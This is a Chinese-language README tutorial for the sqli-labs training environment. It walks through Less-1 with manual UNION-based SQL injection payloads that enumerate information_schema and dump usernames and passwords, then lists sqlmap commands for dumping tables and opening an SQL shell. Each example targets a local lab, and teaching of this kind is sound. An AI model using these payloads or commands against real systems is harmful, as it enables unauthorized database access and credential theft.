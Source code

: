 ## Some Tools ,Writeup or Labs About Sql-Injection
#### 1、sqlmap 
[sqlmapproject-sqlmap.zip](Tools/sqlmapproject-sqlmap.zip)

#### 2、sqli-labs
[sqli-labs.zip](Src/sqli-labs.zip)

#### 3、sqlli-labs参考WP
[sqli-labs参考.pdf](Book/sqli-labs参考.pdf)

#### 4、sqlli-labs参考WP
[sqlmap教程.pdf](Book/sqlmap教程.pdf)

## 简单入门
### 一、Introduction
Sqli-labs是一个印度程序员写的，用来学习sql注入的一个游戏教程
官方地址传送门 [https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)
至于环境搭建，可以通过docker部署一下或者phpStudy本地部署一下[http://phpstudy.php.cn/](http://phpstudy.php.cn/),部署详情可参照本书(p3)[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs参考.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqli-labs%E5%8F%82%E8%80%83.pdf)。
<!--more-->
### 二、通过sqli-labs-Less-1 学习一些基本mysql操作
在环境搭建好之后我们能看到每个题目都有一个描述把本题的考点指出，这也意味着降低了我们的难度
![](image/Sqli-Labs-Sqlmap-基础篇/1.png)
#### Less-1
**hint**:GET-Error based-Single quotes-String

**Hack**:
1、进入后要求GET传入一个id
![](image/Sqli-Labs-Sqlmap-基础篇/2.png)
2、每传入一个id屏幕上显示不同的name和password
![](image/Sqli-Labs-Sqlmap-基础篇/3.png)
3、传入一个单引号试探注入点，发现报错
```
.....  syntax to use near ''1'' LIMIT 0,1' at line 1...

```
思考为什么会出现`''1'' LIMIT 0,1'`,最外面一组单引号是报错的显示，所以在sql语句中应该是`'1'' LIMIT 0,1`,其实`1'`是我们传的参数，所以大致能猜测到访问数据库语句为
```
SELECT name,Password FROM users WHERE id='$id' LIMIT 0,1
```
4、过程
首先为了sql注入，我们需要拿一个`'`来截断 `id='$id'`，并且在末尾添加#或者--+来注释，（注意url中遇到空格，#等字符需要url编码一次）,比如我们可以输入`1 'union select name,Password FROM users #`（当然现在还不知道数据库名和字段），另外本题应该只展示拿到的第一个数据。
```
SELECT name,Password FROM users WHERE id='1'union select name,Password FROM users # ' LIMIT 0,1;
```
![](image/Sqli-Labs-Sqlmap-基础篇/4.png)

5、基本知识储备
当我们不知道数据库名，表名字段名时，需要去爆库，原理其实就是MySQL版本大于5.0时，有个默认数据库information_schema，里面存放着所有数据库的信息(比如表名、 列名、对应权限等)，通过这个数据库，我们就可以跨库查询，爆表爆列。
爆库的标准姿势
```
select schema_name from information_schema.schemata;     //猜数据库

select table_name from information_schema.tables where table_schema='xxxxx';     //猜某数据库的数据表

Select column_name from information_schema.columns where table_name='xxxxx';     //猜某表的字段名
```
在mysql中可以直接拿数字作为order by或者group by的参数,但是数字一定要小于我们拿出来的列数否者报错
![](image/Sqli-Labs-Sqlmap-基础篇/5.png)
另外concat()能将一些字符串连接一个字符串适用于一条数据,group_concat()能够将一张表的数据的一些数据分组合并起来，适用性比较广
6、所以本题基本payload,先通过传id=-1让第一句为空，展示出第二句
首先看sql语句中拿了多少列数据
```
1' order by 3%23    //不报错
1' order by 4%23    //报错
```
所以大概有3列数据，一般能想得到多拿了一个id，所以我们可以通过，第二列第三列数据拿到信息
首先爆数据库有哪些
```
-1' union select 1,2,group_concat(schema_name) from information_schema.schemata%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/6.png)
拿到五个数据库`information_schema,challenges,mysql,performance_schema,security`
现在查询security数据库哪些表
```
-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security'%23
```
拿到`emails,referers,uagents,users`
现在查询users的所有字段
```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name= 'users'%23
```
拿到`id,username,password`
最后可以拿到所有人的账号密码
```
-1' union select 1,group_concat(username),group_concat(password) from users%23
```
![](image/Sqli-Labs-Sqlmap-基础篇/7.png)
### 三、sqlmap使用
sqlmap是基于python2.6/2.7的，所以推荐大家拿virtualenv搭建py2.7虚拟环境,保不定以后有用,教程[https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/](https://kit4y.github.io/2018/12/20/win10-环境下使用virtualenv搭建py虚拟环境/)，Sqlmap是开源的自动化SQL注入工具,当然这是在于自己手注不进去的时候可以参考一下，github地址为[https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)，功能参考书[https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap教程.pdf](https://github.com/Kit4y/Sql-Injection/blob/master/Book/sqlmap%E6%95%99%E7%A8%8B.pdf)
#### 一些常用使用命令
##### 1、是否能注入
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"
```
##### 2、获取所有的数据库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --dbs
```
##### 3、当前库
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --current-db
```
##### 4、查询某数据库的所有表（比如security）
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"  -D security --tables
```
##### 5、暴力查询所有的表
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   --tables
```
##### 6、列出security库中users表中的所有列
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users --columns
```
(-D dbname指定数据库名称、-T tablename：指定某数据表的名称、--columns：列出指定表上的所有列)
##### 7、导出三个数据列中所有的数据
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1"   -D security -T users -C id,username,password --dump
```
##### 8、提供一个sql shell
```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --sql-shell
```

[下一篇-2~6题详解](README2.md)


更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)
